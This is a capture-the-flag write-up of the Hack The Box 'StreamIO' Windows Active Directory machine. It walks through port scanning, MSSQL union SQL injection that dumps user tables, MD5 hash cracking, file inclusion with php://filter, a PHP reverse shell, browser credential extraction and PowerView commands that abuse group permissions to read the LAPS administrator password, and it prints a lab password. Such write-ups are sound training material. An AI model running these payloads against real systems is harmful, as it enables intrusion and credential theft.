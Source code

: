```yaml
---
date: 2025-03-15
categories: [Windows, Medium, AD]
---
```


![StreamIO](https://labs.hackthebox.com/storage/avatars/21240942d301a96e80574353a96b9003.png)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [JDgodd](https://app.hackthebox.com/users/481778) & [nikk37](https://app.hackthebox.com/users/247264)        | [Hack The Box](https://www.hackthebox.com/)     | Medium           | Windows   |

---






- I start with a scan of the open ports and I continue with a scan of the versions and technologies that are running on the open ports that we have found
	
	```python
	nmap -p- --open -vvv --min-rate 3000 -Pn -sS 10.10.11.158 -oG scan
	/opt/extractports scan
	nmap -p53,80,88,135,139,389,443,445,464,593,636,3268,3269,5985,9389,49667,49673,49674,49704 -sCV -Pn 10.10.11.158 -oN ports
	```
	
	![image](https://github.com/user-attachments/assets/a679fee6-690b-4267-b4c8-61c7ca2ec1af)

- I found the domain `streamIO.htb` and `watch.streamIO.htb` add it to the file in the `hosts` file
- I list the mails servers and find a new domain `dc.streamIO.htb` and add it to the `hosts` file

	```python
	dig @10.10.11.158 streamIO.htb mx
	```
	
	![image](https://github.com/user-attachments/assets/a678d8c0-2c6b-481f-a9d4-fc24c3ea7e13)

- I enumerate system users using kerbrute and a dictionary with common user names. I find Administrator and martin. I'm trying to get the password of these users but I can't get it.

	```python
	kerbrute userenum --dc 10.10.11.158 -d streamIO.htb /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
	```
	
  ![image](https://github.com/user-attachments/assets/5dd30f95-91b4-4bf7-8ae1-dbf5a7501cc3)

- I continue to look at web pages using the different domains I have found previously.
	
	![image](https://github.com/user-attachments/assets/4896e8c7-31f9-411c-b543-643319cbf475)

- After searching through the web pages, nothing relevant can be found. I decide to list files that have a number of typical extensions and I find search.php

	```python
	ffuf -c -t 200 -w /usr/share/wordlists/dirb/common.txt  -u https://watch.streamio.htb/FUZZ -e .txt,.php,.js,.html,.py,.sh,.asp,.aspx,.bak
	```

 - This page shows a list of movies and allows us to perform searches. I try to do a search by putting a single quotation mark and I notice that no movie is returned. I interpret that it can have caused an internal error that I cannot see but that can be susceptible to code injections.
 
	![image](https://github.com/user-attachments/assets/80839cc8-ff58-4ab3-abbd-407780d1a34c)

-  Being against a MS SQL I decide to consult how many columns the query is composed of and I notice that it is composed of 6 and the content of columns 2 and 3 I can see them.

```python
10' union select 1,2,3,4,5,6-- -
```

- Knowing I am doing different queries to get information about the structure of the DDBB and its content.

```python
#DDBB name
10' union select 1,schema_name,3,4,5,6 from information_schema.schemata-- -
#Table names
10' union select 1,table_name,3,4,5,6 from information_schema.tables-- -
#Column names 
10' union select 1,concat(column_name,',',table_name),3,4,5,6 from information_schema.columns-- -
#content of table users 
10' union select 1,concat(username,',',password),3,4,5,6 from users-- -
```

- I get to list the content of the users table containing the username and password columns. It seems that the password is encrypted in ms5. I try to break the passwords and succeed for a few of them.
	
	```python
	john -w=/usr/share/wordlists/rockyou.txt credentialsMD5 --format=Raw-MD5
	```
	
![image](https://github.com/user-attachments/assets/ddc4914b-0ff6-4fa2-ab44-58f0d885f9df)

- I try the credentials I found in the streamIO.htb login panel and I get access with the user yoshihide. I can see the admin panel but I can't find anything relevant.
- I notice that when I move through the parts of the admin panel in the url only one parameter changes. I decide to brute force that part to look for new available pages. find a new page when I put "debug".

	```python
	ffuf -c -t 200 -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -H "Cookie: PHPSESSID=61ajbbchdgvc3oobbqh0ahsi3t" -u 'https://streamio.htb/admin/index.php?FUZZ=' | grep -v 'tatus: 200, Size: 1678, Words: 85,'
	```

- I try to read internal system files (LFI) and I manage to read files.
	
	```python
	https://streamio.htb/admin/index.php?debug=c:\Windows\System32\Drivers\etc\hosts
	```

- Since I can read files, I decide to apply a wrapper so that the pages are not interpreted and I can see their content.

```python
https://streamio.htb/admin/index.php?debug=php://filter/convert.base64-encode/resource=..\index.php
https://streamio.htb/admin/index.php?debug=php://filter/convert.base64-encode/resource=..\about_include.php
https://streamio.htb/admin/index.php?debug=php://filter/convert.base64-encode/resource=master.php
https://streamio.htb/admin/index.php?debug=php://filter/convert.base64-encode/resource=index.php
```

- Inside the index.php file I find some credentials to connect to the DDBB. I realize that in this case a different database is used than the one I was using in the previous part so when I have access it would be interesting to consult these new tables.

	![image](https://github.com/user-attachments/assets/3e122d95-ecac-4fad-91c5-b7fc8256fde2)

- I set up a server to share a richero containing a revershell by php. Thanks to this file I manage to get a [revershell](https://github.com/Dhayalanb/windows-php-reverse-shell/blob/master/Reverse%20Shell.php)

	![image](https://github.com/user-attachments/assets/42045c1d-b234-48d3-baf1-0954e63e96ab)

- With this reverse shell I am the user yoshihide and I can read the first flag.
- Once inside the system, we can consult the contents of the database that I have found and that I could not consult before. 

	```python
	sqlcmd -S localhost -d  STREAMIO -U db_admin -P B1XXXXXXXXX90  -Q "SELECT name, database_id from sys.databases;exit;"
	sqlcmd -S localhost -d  STREAMIO -U db_admin -P B1XXXXXXXXX90  -Q "use STREAMIO; SELECT name from sys.tables;"
	sqlcmd -S localhost -d  STREAMIO -U db_admin -P B1XXXXXXXXX90  -Q "select * from STREAMIO.dbo.users;"
	sqlcmd -S localhost -d  STREAMIO -U db_admin -P B1XXXXXXXXX90  -Q "select * from streamio_backup.dbo.users;"
	```

- I find in the other database the same tables but they contain different users. I try to get the passwords in clear text and I get the one for user nikk37.

	![image](https://github.com/user-attachments/assets/62a60a60-ef9a-456d-b6dc-385401906216)

- I connect to the system via WINRM with the user nikk37 and I manage to read the first flag.

```python
evil-winrm -i 10.10.11.158 -u 'nikk37' -p 'get_XXXXXXXXXXXXXcom'
```

- I look for potential ways to escalate privileges. For that I use winpeas to enumerate the system. It shows me the existence of a .db file in a firefox path. This points to obtain the credentials stored in the browser.
- In order to do this I download the key4.db file from firefox along with loggins.json. With these two files and using firepwd I can extract the stored credentials.

	```python
	python firepwd.py -d ./
	````
	
	![image](https://github.com/user-attachments/assets/fb044db7-d542-463c-b18e-3feeb6a80df5)

- I validate the credentials and I see that the user JDgodd's credentials are correct and I can connect to the system.
- I keep listing potential routes with bloodhound and find one. This user has “WriteOwner” permissions on the “Core Staff” group, so we can be included in the group.
- This group has “ReadLAPSPASSWORD” permissions. It allows to read the Local Administrator Solution password. This password is stored in the attribute “ms-MCS-AdmPwd”.

	![image](https://github.com/user-attachments/assets/591b80c5-b56f-4d0e-9913-0055e26b857a)

	```python
	Import-module .\PowerView.ps1
	
	$SecPassword = ConvertTo-SecureString 'JDg0dd1s@d0p3cr3@t0r' -AsPlainText -Force
	$Cred = New-Object System.Management.Automation.PSCredential('streamio.htb\JDgodd', $SecPassword) 
	 
	Add-DomainObjectAcl -Credential $Cred -TargetIdentity "Core Staff" -PrincipalIdentity 'JDgodd'
	Add-DomainGroupMember -Identity 'Core Staff' -Members 'JDgodd' -Credential $Cred -Verbose
	
	ldapsearch -x -H ldap://10.10.11.158 -D  "JDgodd@streamio.htb" -w JDg0dd1s@d0p3cr3@t0r -b "dc=streamio,dc=htb" "(ms-MCS-AdmPwd=*)" ms-MCS-AdmPwd 
	```

- I get the password of the administrator user, I connect via WINRM to the system and I manage to read the second flag

	![image](https://github.com/user-attachments/assets/003463c4-24ff-4334-8054-0368ff7cfc0f)
